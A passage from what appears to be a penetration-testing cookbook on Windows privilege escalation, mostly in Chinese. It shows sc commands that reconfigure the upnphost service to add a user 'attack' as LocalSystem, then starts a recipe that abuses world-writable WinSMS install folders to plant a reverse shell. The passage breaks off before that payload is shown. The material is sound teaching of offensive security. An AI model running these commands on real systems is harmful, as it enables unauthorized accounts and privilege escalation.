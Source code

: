 *   `sc qc upnphost`：`sc`是一个命令行程序，用于与 NT 服务控制器和服务进行通信。`qc`命令查询服务的配置信息。

*   `sc config upnphost binpath= "net user attack attack@123 /add"`：`config`命令指定对服务配置的编辑。这里我们设置二进制路径来创建一个新用户。
*   `sc config upnphost obj= ".\LocalSystem" password= ""`：`obj`命令指定执行服务二进制文件的类型。

## 还有更多。。。

正如我们所看到的，还有一个服务是易受攻击的。最好看看是否可以通过该服务升级特权。

# 软件安装配置错误/文件权限不安全

在本配方中，我们将介绍攻击者如何利用配置错误的软件安装并提升应用程序的权限。这是一个典型的示例，其中配置已安装的安装程序时不考虑用户对应用程序的文件和文件夹的权限。

## 准备好了吗

对于这个配方，我们需要安装一个名为 WinSMS 的应用程序。可从[下载 https://www.exploit-db.com/exploits/40375/](https://www.exploit-db.com/exploits/40375/) 可安装在运行 XP、Vista、7 或 10 的任何 Windows 计算机上。出于演示目的，我们将使用 Windows7。除此之外，我们还需要我们的 Kali 系统启动并运行，以获取反向外壳。

## 怎么做。。。

1.  Once we install the application, we will execute our command prompt and check for the permissions on the folder where the file has installed itself. Enter the following command:

    ```
    cacls "C:\Program Files\WinSMS" 

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_023.jpg)

2.  As we can see, there is `Everyone` access, with full rights. That is a serious blunder, which means that anyone who has access to the system can make modifications to any files in that folder. An attacker can pretty much do anything. An attacker can place his malicious file with the executable file of WinSMS, or even replace a DLL file and get his commands executed. For demo purposes, we are going to place a reverse shell that we will create from Kali, and wait for a connection. Let's begin. On your Kali Terminal, enter the following to create a reverse `exe` shell:
